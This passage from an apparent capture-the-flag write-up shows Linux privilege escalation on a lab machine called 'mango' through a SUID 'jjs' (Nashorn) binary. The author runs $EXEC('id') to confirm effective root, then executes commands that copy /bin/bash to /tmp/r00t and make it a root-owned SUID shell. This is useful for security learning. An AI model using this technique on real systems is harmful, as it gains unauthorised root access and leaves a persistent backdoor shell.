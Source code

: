 Going through the list, we find the "jjs" binary. Looking on GTFObins, there is an entry for it, however, it states that the SUID privesc doesn't work on Linux.m

{% embed url="https://gtfobins.github.io/gtfobins/jjs" %}

What exactly is "jjs". The below explanation was taken from the referenced site:

{% hint style="info" %}
The Nashorn Javascript Engine is part of Java SE 8 and competes with other standalone engines like Google V8 (the engine that powers Google Chrome and Node.js). Nashorn extends Javas capabilities by running dynamic javascript code natively on the JVM.

The Nashorn javascript engine can either be used programmatically from java programs or by utilizing the command line tool jjs.

[https://winterbe.com/posts/2014/04/05/java8-nashorn-tutorial/](https://winterbe.com/posts/2014/04/05/java8-nashorn-tutorial/)
{% endhint %}

A google search for ""jjs" suid" finds the following article, which relates mostly to running the tool on Windows, but does have some Linux examples as well. The article indicates that we could use "jjs" to get a shell, which is perfect for our scenario, as we are attempting to get a shell as root.

{% embed url="https://cornerpirate.com/2018/08/17/java-gives-a-shell-for-everything" %}

Despite all the good information in the above article, I decided to have a look at the "jjs" documentation at the following page:

{% embed url="https://docs.oracle.com/javase/8/docs/technotes/guides/scripting/nashorn/shell.html" %}

According to the above page, if we run the command "jjs -scripting" it will give us an interactive prompt which includes several global objects, one of which is "$EXEC()". This function will allow us to run OS commands from within the "jjs" environment.

Let's test it:

```
admin@mango:/home/admin$ jjs -scripting
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> $EXEC("id")
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)

jjs> quit()
admin@mango:/home/mango$
```

Nice, our effective user ID is root. Let's use this vulnerability to get a root shell.

To do so, I'll copy "/bin/bash" to "/tmp/", run "chown" and "chmod" on it to change the ownership to "root" and to make it a SUID binary.&#x20;

```
admin@mango:/home/mango$ jjs -scripting
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> $EXEC("cp /bin/bash /tmp/r00t; chown root:root /tmp/r00t; chmod u+s /tmp/r00t")

jjs> quit()
admin@mango:/home/mango$ ls -la /tmp/r00t
-rwsr-xr-x 1 root root 1113504 Nov 18 15:43 /tmp/r00t
admin@mango:/home/mango$
```
